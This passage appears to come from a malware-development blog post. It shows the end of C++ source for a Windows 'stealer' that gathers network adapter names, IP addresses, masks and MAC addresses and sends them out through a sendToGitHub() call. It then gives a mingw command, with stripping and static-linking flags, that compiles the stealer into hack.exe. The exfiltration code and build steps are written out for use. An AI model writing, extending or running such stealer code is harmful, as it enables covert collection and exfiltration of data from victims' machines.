 ```cpp
    adapter->AdapterName,
    adapter->IpAddressList.IpAddress.String,
    adapter->IpAddressList.IpMask.String,
    adapter->Address[0], adapter->Address[1], adapter->Address[2],
    adapter->Address[3], adapter->Address[4], adapter->Address[5]);
  }

  int result = sendToGitHub(systemInfo);

  if (result == 0) {
    printf("ok =^..^=\n");
  } else {
    printf("nok <3()~\n");
  }

  return 0;
}
```

As usually, test via "meow-meow" comment, then send system information.      

### demo

Let's check everything in action.     

Compile our "stealer" `hack.c`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -liphlpapi -lwinhttp
```

![malware](/assets/images/145/2025-01-19_22-46.png){:class="img-responsive"}      
